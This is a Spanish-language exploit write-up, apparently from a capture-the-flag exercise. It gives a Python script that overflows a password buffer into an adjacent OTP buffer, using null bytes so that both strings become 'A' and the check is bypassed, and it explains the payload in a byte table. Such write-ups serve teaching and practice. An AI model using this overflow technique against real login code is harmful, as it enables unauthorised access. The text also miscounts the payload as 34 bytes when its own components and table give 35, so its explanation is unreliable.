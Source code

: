 ## El Exploit en Python

El siguiente script en Python automatiza la explotación:

```python
import interact
import struct

def p64(n):
    return struct.pack('Q', n)

def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
p.readuntil('Enter password: ')

payload = b'A\x00' + b'A'*30 + b'A\x00' + b'\n'
p.sendline(payload)
p.interactive()
```

### Explicación del Payload

El payload `b'A\x00' + b'A'*30 + b'A\x00' + b'\n'` (34 bytes) manipula la memoria:

1. **`b'A\x00'` (Bytes 0-1)**:
   - Escribe `'A'` (0x41) y un byte nulo (`\0`) en el inicio de `user_password`.
   - El byte nulo termina la cadena, haciendo que `user_password` sea `"A"`.
   - `strlen(user_password)` devuelve 1, pasando el chequeo.

2. **`b'A'*30` (Bytes 2-31)**:
   - Relleno de 30 bytes con `'A'` para llenar `user_password` (32 bytes en total).
   - Esto posiciona el siguiente dato en el inicio de `otp_password`.

3. **`b'A\x00'` (Bytes 32-33)**:
   - Sobrescribe el inicio de `otp_password` con `'A'` y un byte nulo.
   - Hace que `otp_password` sea `"A"`.

4. **`b'\n'` (Byte 34)**:
   - Un salto de línea asegura que `fgets` termine de leer.

Total: 34 bytes, dentro del límite de 50 bytes de `fgets`.

---

## Desglose del Payload en Memoria

| Índice (Byte #) | Búfer          | Valor (Byte) | Valor (Hex) | Propósito / Interpretación            |
|-----------------|----------------|--------------|-------------|---------------------------------------|
| **0**           | `user_password`| `'A'`        | `0x41`      | Inicio de `user_password`.            |
| **1**           | `user_password`| `'\x00'`     | `0x00`      | Termina `user_password` como `"A"`.   |
| **2 a 31**      | `user_password`| `'A'` (x30)  | `0x41`      | Relleno para llegar a `otp_password`. |
| **32**          | `otp_password` | `'A'`        | `0x41`      | Inicio de `otp_password`.             |
| **33**          | `otp_password` | `'\x00'`     | `0x00`      | Termina `otp_password` como `"A"`.    |
| **34**          | `otp_password` | `'\n'`       | `0x0A`      | Fin de entrada para `fgets`.          |
